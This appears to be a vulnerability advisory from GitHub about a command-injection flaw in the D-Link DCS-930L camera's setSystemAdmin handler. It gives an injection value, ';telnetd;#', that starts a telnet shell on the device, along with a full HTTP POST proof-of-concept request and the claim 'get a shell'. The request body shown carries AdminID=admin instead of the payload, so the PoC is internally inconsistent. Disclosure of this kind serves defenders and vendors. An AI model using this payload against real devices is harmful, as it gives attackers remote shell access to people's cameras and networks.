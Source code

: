 **Affected Product**: D-Link DCS930L
**Affected Firmware Versions**:  2.16.0.1
**Vulnerability Type**: Command Execution

------
### **Vulnerability Description**

In the latest firmware (v2.16.0.1) for the D-Link DCS-930L, a command-injection vulnerability was discovered that allows remote attackers to execute arbitrary OS commands via crafted requests. 


---
### **Vulnerability Details**

![[20251025223957.png]]
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
We set `AdminID` as **';telnetd;#** , and the router will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&AdminPassword=admin&ConfigSystemAdmin=Save
```

get a shell
![[d9e06aa9e39fba8455f803ea2e5a9422.png]]